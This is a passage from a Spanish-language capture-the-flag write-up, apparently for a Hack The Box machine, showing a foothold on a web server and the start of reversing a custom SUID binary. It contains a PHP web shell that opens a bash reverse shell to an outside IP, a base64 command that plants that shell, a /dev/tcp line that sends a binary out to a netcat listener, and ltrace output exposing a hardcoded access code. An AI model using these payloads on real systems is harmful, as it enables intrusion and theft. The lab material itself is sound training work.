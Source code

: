 ```console
```
Es decir /files son los archivos de /dev/mapper/enterprise. En la web accedemos por el Apache (puerto 443 o sea 172.17.0.1)
```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'");
?>
```
```console
wwwww-data@a7018bfdc454:/var/www/html$ echo "PD9waHAKCXN5c3RlbSgiYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjYgMD4mMSciKTsKPz4K" | base64 -d > ./files/cucuxii.php
```
Con eso ya saltaríamos a la máquina en sí
Enumeramos el sistema:
- Usarios: root y jeanpaulpicard  
- SUIDS: /bin/lcars  
- Architecture: x86_64 CPU op-mode(s): 32-bit, 64-bit Byte Order: Little Endian  
- Algo esta corriendo por el puerto 32812 y el 5355  

```
└─$ nmap -sCV -T5 -p5355,32812 -vvv 10.10.10.61 
5355/tcp  filtered llmnr   no-response
32812/tcp open     unknown syn-ack

Welcome to the Library Computer Access and Retrieval System
Enter Bridge Access Code:
Invalid Code
Terminating Console
```
Parece un programa propio

```console
www-data@enterprise:/tmp$ cat < /bin/lcars > /dev/tcp/10.10.14.16/6666
└─$ sudo nc -nlvp 6666 > lcars
```
```
└─$ file lcars
lcars: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=88410652745b0a94421ce22ea4278a8eaea8db57, not stripped

└─$ ./lcars
                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System
Enter Bridge Access Code: test
Invalid Code. Terminating Console
```
Vamos a analizar el binario (que es el mismo que se comaprte por uno de esos puertos extraños):  

```console
└─$ ltrace ./lcars
puts("Enter Bridge Access Code: "Enter Bridge Access Code: 
fgets("test\n", 9, 0xf7ed7620)  # fgets(respuesta, tamaño (9 o sea la nuestra no que son 5), donde lo guarda)
strcmp("test\n", "picarda1\n")  # Es decir el codigo tiene que ser "picarda1"
Invalid Code. Terminating Console
exit(0)

└─$ ./lcars
Enter Bridge Access Code: picarda1
LCARS Bridge Secondary Controls -- Main Menu: 

1. Navigation
```